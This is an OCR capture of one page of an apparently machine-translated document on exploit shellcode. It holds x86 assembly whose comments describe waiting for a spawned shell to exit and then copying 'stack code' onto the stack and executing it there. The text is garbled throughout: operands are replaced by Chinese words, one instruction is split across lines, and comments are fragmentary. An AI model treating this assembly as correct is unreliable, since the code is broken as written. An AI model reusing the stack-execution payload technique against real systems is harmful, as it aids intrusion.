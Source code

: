 movl% ebp, 是%

subl% ecx,% edi

// ESI = 0

// ECX = 0

//EBX=0

//EBX=0xFFFFFFFF

//EAX=0

//EAX=0x72

//wait() （等待shell退出）

// ECX = 0

// ECX = \$ StackCodeSize

// ESI = \$ BufferAddress + \$ StackCodeOffset

// (开头的地址

//堆栈代码）

//EDI指向结束或本地

// 多变的

//EDI指向或开头

//局部变量

20/26

Machine Translated by Google

movl%edi,%edx

repz movsb %ds:(%esi),%es:(%edi)

跳转 \*%edx

// 或局部变量

//将我们的堆栈代码复制到我们的本地

//栈上的变量

//在堆栈上运行我们的堆栈代码

堆栈代码：

movl \$ 0x804a913,% 是

movl 为 \$ 0x804a860,%

xorl%ecx,%ecx movb

\$0x9,%cl

repz movsb %ds:(%esi),%es:(%edi)

